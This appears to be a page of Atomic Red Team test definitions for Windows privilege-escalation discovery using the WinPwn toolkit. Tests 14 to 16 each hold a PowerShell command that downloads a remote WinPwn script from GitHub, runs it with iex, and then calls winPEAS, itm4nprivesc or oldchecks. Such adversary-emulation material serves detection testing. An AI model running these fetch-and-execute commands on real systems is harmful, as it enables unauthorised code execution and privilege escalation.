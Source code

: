 <br/>
<br/>

## Atomic Test #14 - WinPwn - winPEAS

Discover Local Privilege Escalation possibilities using winPEAS function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** eea1d918-825e-47dd-acc2-814d6c58c0e1

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
winPEAS -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #15 - WinPwn - itm4nprivesc

Discover Local Privilege Escalation possibilities using itm4nprivesc function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 3d256a2f-5e57-4003-8eb6-64d91b1da7ce

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
itm4nprivesc -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #16 - WinPwn - Powersploits privesc checks

Powersploits privesc checks using oldchecks function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 345cb8e4-d2de-4011-a580-619cf5a9e2d7

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
oldchecks -noninteractive -consoleoutput
```
